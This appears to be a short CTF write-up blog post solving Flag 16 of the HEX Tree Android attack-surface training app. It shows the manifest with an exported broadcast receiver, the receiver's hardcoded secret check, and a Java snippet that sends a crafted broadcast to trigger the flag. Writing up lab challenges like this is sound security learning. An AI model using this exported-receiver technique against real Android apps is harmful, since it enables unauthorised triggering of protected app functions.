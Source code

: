 +++
date = '2025-07-14T00:55:36+03:00'
draft = false
title = 'HEX Tree Broadcast Challenges'
tags = ['Ctf', 'Andorid', 'broadcast', 'hextree']
+++



### Flag 16
#### Code analysis
```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag16Activity"
    android:exported="false"/>
</activity>
<receiver
     android:name="io.hextree.attacksurface.receivers.Flag16Receiver"
     android:enabled="true"
	 android:exported="true"/>
```

that doesn't look good >:  the activity isn't exported so we cant call it but luckily there is a receiver defined 

Receiver: 
```java
    public static String FlagSecret = "give-flag-16";
    
    public void onReceive(Context context, Intent intent) {
        if (intent.getStringExtra("flag").equals(FlagSecret)) {
            success(context, FlagSecret);
        }
    }
```

So The received broadcast need to have `flag` with value   `give-flag-16` so that the `success` method is called 

#### Solution
```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag16Receiver");
intent.putExtra("flag","give-flag-16");
sendBroadcast(intent);

```

and yes this was a success 

![alt](hex_16_1.png)

